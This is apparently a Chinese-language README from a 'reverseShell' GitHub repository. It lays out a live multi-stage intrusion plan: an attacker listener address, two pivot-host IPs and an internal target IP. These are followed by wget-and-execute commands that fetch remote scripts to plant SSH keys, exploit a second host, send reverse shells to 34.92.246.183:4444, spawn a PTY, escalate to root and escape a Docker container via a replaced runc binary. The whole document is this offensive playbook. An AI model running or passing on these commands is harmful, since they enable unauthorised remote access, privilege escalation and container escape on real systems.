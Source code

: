 ## 攻击机接受反弹shell的地址
ddns.randomhhh.top:9000  经本地路由器端口转发后的端口为 4444

## 跳板机1 ip
34.92.246.183
## 跳板机2 ip
35.220.174.61

## 目标主机的内网ip
10.170.0.3

# 拿下跳板机1后攻击流程的指令
### 下载addKey.sh 修改权限， 执行，配置主机的ssh公钥，用于ssh登录
```bash
wget https://raw.githubusercontent.com/Xia0ba0/reverseShell/master/addkey.sh && chmod 755 ./addkey.sh && ./addkey.sh
``` 
### 下载exploitFirst.py 执行，攻击跳板机2
```bash
wget https://raw.githubusercontent.com/Xia0ba0/reverseShell/master/exploitFirst.py && python exploitFirst.py
```
### webshell内下载reverse1.sh 修改权限，反弹shell到 34.92.246.183:4444
```bash
wget https://raw.githubusercontent.com/Xia0ba0/reverseShell/master/reverse1.sh 
chmod 755 ./reverse1.sh 
./reverse1.sh
```
### 下载getPty.py ,执行,获取pty
```bash
wget wget https://raw.githubusercontent.com/Xia0ba0/reverseShell/master/getPty.py && python getPty.py
```
### 下载upRight.sh, 修改权限，执行，提权至root
```bash
wget https://raw.githubusercontent.com/Xia0ba0/reverseShell/master/upRight.sh && chmod 755 ./upRight.sh && ./upRight.sh
```
### 下载预先编译的沙箱逃逸二进制，修改权限，执行，在docker外反弹一个shell至 34.92.246.183:4444
```bash
wget https://raw.githubusercontent.com/Xia0ba0/reverseShell/master/replaceRunc && chmod 755 ./replaceRunc && ./replaceRunc